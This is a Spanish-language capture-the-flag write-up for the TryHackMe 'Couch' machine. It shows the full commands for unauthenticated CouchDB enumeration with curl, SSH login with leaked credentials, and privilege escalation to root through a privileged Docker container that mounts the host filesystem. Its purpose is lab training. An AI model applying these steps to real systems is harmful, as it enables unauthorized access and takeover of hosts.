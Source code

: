 ```yaml
---
title: Couch (Try Hack Me)
author: J0lm3d0
date: 2021-11-12 12:00:00 +0200
categories: [TryHackMe]
tags: [linux, couchdb, docker]
pin: false
---
```


En este documento se recogen los pasos a seguir para la resolución de la máquina Couch de la plataforma TryHackMe. Se trata de una máquina Linux de 64 bits, que posee una dificultad fácil de resolución según la plataforma.

![Logo de la máquina](/assets/img/THM/Couch/machine.png)

[Write-up en PDF realizado mediante LaTeX](/pdfs/Write_up_Couch.pdf)

## Enumeración de servicios y recopilación de información sensible

Lo primero a realizar es un escaneo de todo el rango de puertos TCP mediante la herramienta `Nmap`.

```
# nmap -p- --open -T5 -n -vv 10.10.141.129

Not shown: 65182 closed ports, 351 filtered ports
Reason: 65182 resets and 351 no-responses
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5984/tcp open  couchdb syn-ack ttl 63
```

Tras obtener los puertos que la máquina tiene abiertos, aplico scripts básicos de enumeración y utilizo la flag -sV para intentar conocer la versión y servicio que están ejecutando cada uno de esos puertos.

```bash
# nmap -p22,5984 -sC -sV 10.10.141.129

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Veo que, aparte del servicio SSH, nos encontramos un servicio `Apache CouchDb`, que se trata una base de datos de documentos NoSQL de código abierto que recopila y almacena datos en documentos basados en JSON. A diferencia de las bases de datos relacionales, CouchDB utiliza un modelo de datos sin esquema, que simplifica la gestión de registros en varios dispositivos informáticos. Al detectar la versión utilizada en el escaneo, pruebo a buscar exploits mediante la herramienta `SearchSploit`, encontrando un exploit que puede aplicar en dicha versión.

```
# searchsploit couchdb 1.6.1
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache CouchDB < 2.1.0 - Remote Code Execution                                                                                                                                                           | linux/webapps/44913.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Pero, tras hacer varias pruebas, compruebo que la vulnerabilidad que explota este script está subsanada o no aplica, ya que al realizar la petición POST que ejecutaría el comando, me da una respuesta "401 Unauthorized". Para continuar, accedo al servicio a través del navegador.

![Página principal del servidor web](/assets/img/THM/Couch/mainpage.png)

Buscando información en internet, encuentro el siguiente [artículo](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb) en el que se explica como enumerar de forma manual las bases de datos de CouchDB a través de peticiones HTTP. A continuación, se ve el listado de bases de datos creadas, de las cuales las que más me llaman la atención son "_users" y "secret".

```
# curl -s -X GET http://10.10.141.129:5984/_all_dbs | jq
[
  "_replicator",
  "_users",
  "couch",
  "secret",
  "test_suite_db",
  "test_suite_db2"
]
```

## Acceso a la máquina

Tras enumerar más a fondo esas 2 bases de datos, encuentro en "secret" un documento que contiene una variable "passwordbackup" con unas credenciales.

```
# curl -s -X GET http://10.10.141.129:5984/secret/a1320dd69fb4570d0a3d26df4e000be7 | jq
{
  "_id": "a1320dd69fb4570d0a3d26df4e000be7",
  "_rev": "2-57b28bd986d343cacd9cb3fca0b20c46",
  "passwordbackup": "atena:t4*******N##"
}
```

Con las credenciales obtenidas, logro conectarme a la máquina por SSH y obtengo la primera flag.

```
atena@ubuntu:~$ cat user.txt

THM{********_*******}
```

## Escalada de privilegios

Enumerando el sistema para escalar privilegios, descubro que root está ejecutando un contenedor de Docker. Además, en el histórico de "bash" había encontrado un comando en el que se ejecutaba un contenedor de Docker con privilegios.

```
atena@ubuntu:~$ ps -faux

root       821  0.0  1.2 395632  6424 ?        Ssl  11:42   0:02 /usr/bin/containerd
root       827  0.0  2.6 451700 13028 ?        Ssl  11:42   0:04 /usr/bin/dockerd -H=fd:// -H=tcp://127.0.0.1:2375

atena@ubuntu:~$ cat .bash_history

docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Al volver a desplegar el histórico para copiar el comando, veo que se está creando una carpeta compartida en el directorio "/mnt" del contenedor, que contendrá el directorio raíz de la máquina anfitrión. Por tanto, al acceder al contenedor como root, puedo visualizar la flag que se encuentra en la máquina "host" en la ruta "/mnt/root/root.txt". Para conseguir una shell en la máquina anfitrión, solo tendría que, por ejemplo, asignar un permiso SUID a cualquier binario que permita obtener una shell o editar el fichero "/etc/sudoers" para que el usuario "atena", no privilegiado, pueda ejecutar comandos como root sin proporcionar contraseña.

```
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ # id

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

/ # cat /mnt/root/root.txt 

THM{***_*****_******_***}
```

Además, a modo de curiosidad, explico una forma para poder ejecutar el contenedor de la máquina víctima en nuestra máquina de atacante en este caso.

Al ver el proceso de Docker en el listado de procesos, observo que emplea la flag -H, utilizada para indicar el socket del demonio (daemon) de Docker al que se debe conectar el contenedor. El daemon de Docker es capaz de comunicarse con la API de Docker a través de 3 difentes tipos de socket: "unix", "tcp" y "fd". En este caso, se especificaban 2 tipos, un socket "fd" y un socket "tcp" que apuntaba a la propia máquina (localhost) por el puerto 2375.

De esta forma, como cuento con credenciales para el servicio SSH, podría realizar un Local Port Forwarding de tal forma que el puerto 2375 de mi máquina reenvíase las peticiones al puerto 2375 de la máquina víctima. De esta forma, podría lanzar el contenedor de docker en mi propia máquina.

![Local Port Forwarding del puerto 2375 mediante SSH](/assets/img/THM/Couch/lpf.png)

![Ejecutamos el contenedor en nuestra máquina de atacante](/assets/img/THM/Couch//offsecdocker.png)

Más información en la web de [Docker](https://docs.docker.com/engine/reference/commandline/dockerd/).